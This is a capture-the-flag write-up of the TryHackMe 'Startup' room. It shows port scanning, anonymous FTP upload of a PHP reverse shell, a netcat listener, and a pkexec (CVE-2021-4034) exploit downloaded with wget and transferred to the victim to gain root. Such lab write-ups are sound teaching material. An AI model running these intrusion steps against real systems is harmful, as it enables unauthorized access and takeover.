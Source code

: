 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/startup/","tags":["CTF","write-up"]}
---
```



---


![Pasted image 20240926192837.png|300](/img/user/attachments/Pasted%20image%2020240926192837.png)

> [!info] Description
> Abuse traditional vulnerabilities via untraditional means.
**We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

---
# Active reconnaisance
## Enum ports and services
Running a general scan
```shell
sudo nmap 10.10.100.226 -sS -n -p- --min-rate 5000 -vvv -Pn --open
```

```c
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

---
# Vuln analisis
Running a focused scan
```shell
sudo nmap 10.10.100.226 -sCV -p 21,22,80
```

## Port 22
```c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
```
From launchpad probabbly Ubuntu Xenial Xerus 16.04
![Pasted image 20240927085755.png](/img/user/attachments/Pasted%20image%2020240927085755.png)
## Port 21
```c
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.6.2.59
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```
### Download the files
Connecting, set the name `ftp` or `anonymous` and the password empty.
```shell
ftp IP
ftp
```
Now we see the files.
![Pasted image 20240927215100.png|500](/img/user/attachments/Pasted%20image%2020240927215100.png)

To download them.
```shell
get filename.txt
```
## Port 80
```c
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
### Fuzzing
```shell
wfuzz -c -t 10 --hc=404,403 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://startup.thm/files/FUZZ
```
After fuzz we found only the `files ` sub-directory
![Pasted image 20240927152857.png|300](/img/user/attachments/Pasted%20image%2020240927152857.png)
And the ftp folder it's empty.

---
# Exploitation
## Port 21 write access
Test if we can write into the ftp folder.
We can't write into the main folder but we can do it into `ftp` folder.
![Pasted image 20240927153044.png|400](/img/user/attachments/Pasted%20image%2020240927153044.png)
## Port 80
We create an reveseshell using https://www.revshells.com/ PHP PentestMonkey
And put that file.

Set the listener on the attacker machine
```shell
rlwrap nc -lnvp 4747
```
And go to the file in the browser. http://startup.thm/files/ftp/rev_shell_1.php
And we have the shell.
![Pasted image 20240927153415.png](/img/user/attachments/Pasted%20image%2020240927153415.png)
Get a better shell
```python
python -c  'import pty;pty.spawn("/bin/bash")'
```

> [!check] What is the secret spicy soup recipe?
![Pasted image 20240927155826.png](/img/user/attachments/Pasted%20image%2020240927155826.png)

---
# Privilege Escalation
Check files with [[SUID\|SUID]] permission
```shell
find / -type f -perm -u=s -ls 2>/dev/null
```
or
```shell
find / -type f -perm -4000 -ls 2>/dev/null
```
![Pasted image 20240927171405.png|600](/img/user/attachments/Pasted%20image%2020240927171405.png)
## CVE-2021-4034
 
<div class="transclusion internal-embed is-loaded"><a class="markdown-embed-link" href="/cve-2021-4034/" aria-label="Open link"><svg xmlns="http://www.w3.org/2000/svg" width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" class="svg-icon lucide-link"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a><div class="markdown-embed">




> [!cite] NIST-CVE-2021-4034
> A local privilege escalation vulnerability was found on polkit's **pkexec** utility. The pkexec application is a **setuid** tool designed to allow unprivileged users to **run commands as privileged users** according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

We have `pkexec`with SUID the bit enabled.
The exploit https://github.com/Almorabea/pkexec-exploit
```shell
wget https://raw.githubusercontent.com/Almorabea/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```
Or the code [[CVE-2021-4034-exploit\|CVE-2021-4034-exploit]]

And transfer to the victim machine

<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



## Transfer files
Using **Python**, in the folder that contain the file to send **on the source machine.** E.g. `file.txt` #flashcard
```python
python -m http.server 4545
```
<!--ID: 1728611164654-->

On the destination machine
```shell
wget http://IP_SOURCE_MACHINE:4545/file.txt
```

</div></div>


Run the exploit
```shell
python3 CVE-2021-4034.py
```


</div></div>

We have the root shell
![Pasted image 20240927161322.png|500](/img/user/attachments/Pasted%20image%2020240927161322.png)

> [!check] user.txt
> ![Pasted image 20240927171747.png|400](/img/user/attachments/Pasted%20image%2020240927171747.png)


> [!check] root.txt
> ![Pasted image 20240927171845.png|400](/img/user/attachments/Pasted%20image%2020240927171845.png)


---
